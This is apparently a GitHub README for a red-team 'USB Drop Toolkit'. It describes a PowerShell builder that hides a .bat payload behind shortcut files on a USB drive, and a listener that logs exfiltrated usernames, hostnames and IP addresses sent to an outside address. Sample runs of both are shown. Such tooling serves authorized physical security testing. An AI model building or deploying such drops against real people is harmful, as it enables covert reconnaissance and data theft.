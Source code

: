 # USB Drop Toolkit
___
USB Drop Toolkit is a red team utility designed for physical security assessments where USB drops are part of the engagement. This toolkit includes:
	•	A PowerShell script to format USB drives with hidden .bat payload executed by shortcut files.
	•	A listener to capture exfiltrated host and network details

Base version of this isn't built for C2, but totally could be... just not worth the maintenance here...

![image](https://github.com/user-attachments/assets/74bbe1ac-e8be-45e9-96e5-a30811b770ff)
___
## Usage

1. Use usb_drop_builder.ps1 to generate USB with hidden .bat paylaod.
```ps1
PS C:\Users\matt\Downloads> .\usb_drop_builder.ps1 54.218.99.118
Select a USB drive to format and prepare:
[0] E: WORK_DOCS (28.89 GB free)
Enter number of drive to use: 0

[+] USB drop successfully created at E:\
DriveLetter FriendlyName FileSystemType DriveType HealthStatus OperationalStatus SizeRemaining     Size
----------- ------------ -------------- --------- ------------ ----------------- -------------     ----
E           WORK_DOCS    FAT32          Removable Healthy      OK                     28.89 GB 28.89 GB
```
2. Start publicly accessible listener... then profit:
```bash
./usb_listener.sh
[*] Listening on port 8080
[*] Logging to ./usb_drop_logs.txt

=== Hit @ 2025-06-05 03:42:58 ===
User: hackerman\matt
Hostname: Hackerman
Internal IPs:
IPv4 Address. . . . . . . . . . . : <redacted-ip>
IPv4 Address. . . . . . . . . . . : <redacted-ip>
External IP Address: <redacted-ip>
```
